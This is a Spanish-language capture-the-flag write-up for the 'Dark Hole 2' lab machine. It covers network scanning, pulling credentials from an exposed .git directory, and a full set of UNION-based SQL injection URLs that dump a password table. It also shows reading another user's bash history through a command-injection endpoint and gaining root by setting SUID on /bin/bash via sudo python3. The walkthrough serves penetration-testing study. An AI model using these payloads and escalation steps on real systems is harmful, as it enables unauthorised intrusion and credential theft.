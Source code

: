 # Dark Hole 2

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: Information Leakage /
Github Project Enumeration /
SQLI (SQL Injection) /
Chisel (Remote Port Forwarding) + Abusing Internal Web Server /
Bash History - Information Leakage [User Pivoting] /
Abusing Sudoers Privilege [Privilege Escalation]

Te prepara para las **Certificaciones**: eWPT /
eJPT<br><br>

![image](https://github.com/user-attachments/assets/df5632d1-b6d2-4ff1-9a0e-d13c806622d9)<br><br>

# Reconocimiento

Utilizando `arp-scan` podemos encontrar la IP de la maquina.<br>

![image](https://github.com/user-attachments/assets/7948c487-8f54-4892-aed9-533f8b4b402e)<br><br>


Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/85d3ef85-382d-42ed-bd4b-dd5726519b06)<br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>


Utilizando `nmap` lanzamos los scrips mas comunes y encontramos una ruta `192.168.0.31/.git/`<br>

![image](https://github.com/user-attachments/assets/83c5b648-febc-4d76-9acc-1b5e5ba7ba1a)<br>

- `wget -r 192.168.0.31/.git/` -> Descargamos recursivamente todo lo que hay en `.git`

- `git log --oneline` -> Vemos los commit<br><br>

Nos llama la atención este commit<br> 

![image](https://github.com/user-attachments/assets/4d4316b4-e3db-4124-8786-891d95346f87)<br>

- `git show` -> Lo abrimos<br><br>

Encontramos credenciales:<br>

![image](https://github.com/user-attachments/assets/29d9c935-f6a8-4389-af05-84f5da1ac2b6)<br><br>


# SQLI

Vemos que es vulnerable a inyección SQL (Tiene 6 columnas)<br>

![image](https://github.com/user-attachments/assets/55af3420-cdff-455a-97c7-5e6f3d633ab6)<br><br>

- `http://192.168.0.31/dashboard.php?id=2%27%20union%20select%201,database(),3,4,5,6--%20-` -> Vemos la base de datos.<br>

- `http://192.168.0.31/dashboard.php?id=2%27%20union%20select%201,group_concat(schema_name),3,4,5,6%20from%20information_schema.schemata--%20-` -> Vemos todas las bases de datos.<br>

- `http://192.168.0.31/dashboard.php?id=2' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -` -> Vemos las tablas <br>

- `http://192.168.0.31/dashboard.php?id=2%27%20union%20select%201,group_concat(column_name),3,4,5,6%20from%20information_schema.columns%20where%20table_schema=%27darkhole_2%27%20and%20table_name=%27users%27--%20-` -> Vemos las columnas.<br>

----

- `http://192.168.0.31/dashboard.php?id=2%27%20union%20select%201,group_concat(user,0x3a,pass),3,4,5,6%20from%20ssh--%20-` -> Vemos usuario y contraseña de la tabla ssh<br><br>

![image](https://github.com/user-attachments/assets/3dbd0f60-4fc1-48df-b46b-20916439ac6f)<br>

Nos conectamos por ssh, `usuario = jehad`, `password = fool`<br>

![image](https://github.com/user-attachments/assets/7924fcd2-5a44-4b85-999b-9387b3411353)<br><br>

# Escalada de privilegios

en `/home/jehad/.bash_history` podemos ver que usa el comando `curl "http://127.0.0.1/?cmd=id"` el cual ejecuta comandos como el usuario `losy` <br>
![image](https://github.com/user-attachments/assets/447a376b-1c3f-4c61-97d6-c34a1a1256dc)<br><br>

Hacemos `curl "http://127.0.0.1/?cmd=cat%20/home/losy/.bash_history"`  y podremos leer la contraseña de `losy`<br>

![image](https://github.com/user-attachments/assets/6377702c-ee53-48c5-9cec-f5421d2b08c4)<br>

Nos conectamos  `su losy` password `gang`, con `sudo -l` vemos que podemos ejecutar como root el python3<br><br>

![image](https://github.com/user-attachments/assets/566e7bd3-c84a-4212-b9f7-9520e49aaa32)<br>

Hacemos este script en `/tmp/` donde importamos la libreria `os` de python y ejecutamos `chmod u+s /bin/bash` para ponerle SUID a la bash.<br>

![image](https://github.com/user-attachments/assets/a91ac4cf-3ca4-4e32-9af2-ee4aa8407cf1)<br><br>

Luego hacemos `bash -p` y somos root, flag final<br>

![image](https://github.com/user-attachments/assets/10e74083-5c19-493a-a069-901070303407)<br><br>

